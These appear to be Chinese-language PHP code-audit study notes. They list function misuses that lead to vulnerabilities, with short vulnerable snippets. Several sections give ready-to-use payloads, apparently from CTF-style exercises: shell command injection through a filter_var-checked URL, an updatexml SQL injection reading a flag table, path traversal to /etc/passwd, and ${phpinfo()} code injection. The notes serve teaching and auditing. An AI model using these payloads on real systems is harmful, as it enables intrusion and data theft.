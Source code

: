 ## **参数处理函数缺陷**
#### **1、urldecode — 解码已编码的 URL 字符串**
```
语法：urldecode( string $str) : string
解码给出的已编码字符串中的任何 %##。 加号（'+'）被解码成一个空格字符。

下面列举了一个关于urldecode()引发SQL注入的例子（具体漏洞编号没找到）
是以前Discuz X1.5的一个漏洞
foreach($_POST as $k => $v) {
$value = urldecode($v);
$this->setParameter($k, $value);
}

单引号被 urlencode 两次以后是 %2527，然后 POST，PHP 内部在生成全局变量 $_POST 的时候会先 urldecode，得到 %27，
然后 PHP 会检查 Magic Quotes 的设置，但是无论是否开启 Magic Quotes，
%27 都不会被转义，因为这时根本没有单引号。但是这时如果在PHP中加上 urldecode，%27就变成单引号了
```

^
#### **2、rawurldecode — 对已编码的 URL 字符串进行解码**
```
语法 rawurldecode( string $str) : string
返回字符串，此字符串中百分号（%）后跟两位十六进制数的序列都将被替换成原义字符。
这个就不细讲了，和urldecode差不多。
```

^
#### **3、is_numeric**
```
bool is_numeric ( mixed $var )
如果 var 是数字和数字字符串则返回 TRUE，否则返回 FALSE。
仅用is_numeric判断而不用intval转换就有可能插入16进制的字符串到数据库，进而可能导致sql二次注入。
```


^
#### **4、in_array()没有true**
用in_array()做白名单，但是第三个参数没有用true。
```
例如文件名为 7shell.php 。
因为PHP在使用 in_array()函数判断时，
会将 7shell.php 强制转换成数字7，而数字7在 range(1,24)数组中，
最终绕过 in_array() 函数判断，导致任意文件上传漏洞。
sql注入等。
```


^
#### **5、filter_var过滤url格式**
```
$url = $_GET['url'];
if(isset($url) && filter_var($url, FILTER_VALIDATE_URL)){
    $site_info = parse_url($url);
    if(preg_match('/sec-redclub.com$/',$site_info['host'])){
        exec('curl "'.$site_info['host'].'"', $result);
```
这里用了 **filter_var** 函数来过滤变量，且用了 **FILTER_VALIDATE_URL** 过滤器来判断是否是一个合法的url。并且满足 **$site\_info\['host']** 的值以 **sec-redclub.com** 结尾
payload
```

?url=demo://%22;ls;%23;sec-redclub.com:80/
?url=demo://%22;cat%20f1agi3hEre.php;%23;sec-redclub.com:80/
```


^
#### **6、class_exists()任意文件读取**
**class_exists()** 函数就会自动调用本程序中的 **__autoload** 函数，这题的文件包含漏洞就出现在这个地方。攻击者可以使用 **路径穿越** 来包含任意文件，当然使用路径穿越符号的前提是 **PHP5~5.3(包含5.3版本)版本** 之间才可以。例如类名为： **../../../../etc/passwd** 的查找，将查看passwd文件。

^
#### **7、strpos()函数绕过**
strpos()函数返回查找到的子字符串的下标
如果字符串开头就是我们要搜索的目标，则返回下标 0 ；如果搜索不到，则返回 false
```
if(!strpos($pass,'>'))
代码原意是$pass中不能>字符，
但是如果>在第一个位置0，取反!后就为true则绕过if
```



^
#### **8、str_replace替换做过滤可能的缺陷**
```
这里看似过滤../防止目录穿越
str_replace('../','',$language)；
```
程序仅仅只是将 **../** 字符替换成空，这并不能阻止攻击者进行攻击。例如攻击者使用payload：**....//** 或者 **..././** ，在经过程序的 **str_replace** 函数处理后，都会变成 **../**


^
#### **9、变量覆盖逃逸addslashes**
```
if(isset($_POST['msg']) && $_POST['msg'] !==''){
    $msg = addslashes($_POST['msg']);
    $msg = replace_bad_word(convert($msg));
    $sql = "INSERT INTO users VALUES($id,'".$msg."')";
    $result = $conn->query($sql);
    if($conn->error) die($conn->error);
}

function replace_bad_word($str){
    global $limit_words;
    foreach ($limit_words as $old => $new) {
        strlen($old) > 2 && $str = str_replace($old,trim($new),$str);
    }
    return $str;
}

function convert($str){
    return htmlentities($str);
}

$limit_words = array('造反' => '造**', '法hh' => '法**');

foreach (array('_GET','_POST') as $method) {
    foreach ($$method as $key => $value) {
        $$key = $value;
    }
}
```
```
这里，我们便可以通过变量覆盖 **$limit_words** 数组，来逃逸单引号，
因为在 **index.php** 文件中使用了 **addslashes** 函数。

msg=1%00' and updatexml(1,concat(0x7e,(select * from flag),0x7e),1))#&limit_words[\0\]=
```


^
#### **10、程序在过滤后没有退出，程序还能执行**
```
error_log（"Hacking attempt.");
header（'Location:/error/');

assert（"(int)$pi ==3")
```
没有使用die ，exit等函数，assert还能执行，$pi直接代码执行。


^
#### **11、未过滤${的可变代码执行**
```
 $content = '<?php  $mysql_server_name="'.$local.'";   $mysql_database="'.$data.'";    $mysql_username="'.$user.'";  $mysql_password="'.$ps.'";   ?>';  

file_put_contents($file,$content);
```
php语言的特性：[PHP可变变量](http://php.net/manual/zh/language.variables.variable.php) 。在PHP中双引号包裹的字符串中可以解析变量，而单引号则不行。 （[\[红日安全\]代码审计](https://www.freebuf.com/column/182130.html)）
可以发现拼接后的字符串把所有的变量都放到了单引号中，并且在字符串过滤时并没有过滤‘{}’，‘()’和‘$’等非法字符。这样一来漏洞利用方式就很清晰了，通过变量注入可执行代码，再去访问注入代码的php文件即可。

```
?ps=${phpinfo()}
```


^
## 12、**htmlentities()拿来过滤sql**

**htmlentities()** 并不能转换所有的特殊字符，是转换除了空格之外的特殊字符，且单引号和双引号需要单独控制（通过第二个参数）。第2个参数取值有3种，分别如下：
* ENT_COMPAT（默认值）：只转换双引号。
* ENT_QUOTES：两种引号都转换。
* ENT_NOQUOTES：两种引号都不转换

如果只是ENT_COMPAT的话，可以用单引号进行sql注入。